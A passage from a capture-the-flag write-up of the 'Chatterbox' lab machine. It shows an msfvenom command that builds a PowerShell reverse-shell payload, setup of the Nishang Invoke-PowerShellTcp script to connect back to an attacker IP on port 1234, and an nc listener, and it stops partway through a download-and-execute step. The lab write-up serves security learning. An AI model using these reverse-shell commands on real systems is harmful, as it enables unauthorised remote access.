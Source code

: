 ![](../img/Chatterbox Writeup wo Metasploit/1_5AV9M9Ls6XTQ2SO-gkwbAQ.png)

Alright, all we did is view the root flag, we didn’t really escalate privileges. Unfortunately our shell can’t handle running PowerShell, so in the next section, we’ll start from the beginning and send a PowerShell reverse shell back to our target machine and from there we’ll escalate our privileges to _Administrator_.

# Extra Content: The PowerShell Solution

View the options for PowerShell reverse shells in msfvenom.

![](../img/Chatterbox Writeup wo Metasploit/1_HLwepNg6SyWiuGIPICQGVA.png)

We’ll go with the _powershell_reverse_tcp_ option.

```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=10.10.14.7 LPORT=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Unfortunately, this gives us a payload that is larger than the maximum size specified in the exploit.

![](../img/Chatterbox Writeup wo Metasploit/1_R2cIHjSY_Wf1ANRH_2L_UQ.png)

So instead, we’ll just use the _windows/exec_ module to download and execute the [Nishang](https://github.com/samratashok/nishang) reverse shell.

Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Setup a listener to receive the reverse shell.

```
nc -nlvp 1234
```

Next, use msfvenom to generate a payload that downloads the PowerShell script and executes it.
